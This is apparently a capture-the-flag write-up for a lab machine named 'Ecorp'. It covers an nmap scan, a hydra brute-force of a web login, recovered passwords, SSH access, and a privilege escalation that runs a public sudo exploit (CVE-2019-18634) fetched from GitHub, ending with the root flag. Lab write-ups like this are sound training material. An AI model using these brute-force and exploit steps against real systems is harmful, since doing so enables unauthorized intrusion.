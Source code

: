 # Ecorp

## Enumeration
```bash
└─$ nmap  -sV -A -p- -sC  10.10.145.194             
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-22 21:17 BST
Nmap scan report for 10.10.145.194
Host is up (0.045s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 10:a6:95:34:62:b0:56:2a:38:15:77:58:f4:f3:6c:ac (RSA)
|   256 6f:18:27:a4:e7:21:9d:4e:6d:55:b3:ac:c5:2d:d5:d3 (ECDSA)
|_  256 2d:c3:1b:58:4d:c3:5d:8e:6a:f6:37:9d:ca:ad:20:7c (ED25519)
80/tcp   open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Home - E-Corp
8080/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Home - E-Corp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.52 seconds
```
## Exploitation

#### source code of /login :
```
password = <!-- Remember the company policy: color + two digits number -->
```
### We can answer the web site for an hint for a password user, so I try to brute force it and I got the elliot hint 

```{"hint":"All is not black or white","username":"elliot"}```

### After a long time of research, wordlist creation and brute force tries i got the password 

#### run this command with hydra
```bash
hydra -P final -l elliot 10.10.115.29 http-post-form "/api/user/login:{"username"=^USER^, "password"=^PWD^}:Invalid Username Or Password"
```
#### and i got this
```
{username : "elliot", password : "darkgray37"}
```
### On the elliot I found the ssh password for elliot

```bash
echo "Im_M1st3r_R0b0T" | ssh elliot@<IP> 
```
## Privilege Escalation

### I run linpeas and find a CVE that I already use in another CTF : CVE-2019-18634
```bash
git clone git@github.com:saleemrashid/sudo-cve-2019-18634.git
```
### I create a python server to transfer the binary

```bash
chmod +x exploit ; ./exploit
```
## Root FLAG

```cd /root ; cat `ls` ```: EPI{C0nTr0L_Is_4N_Il7uS10n}






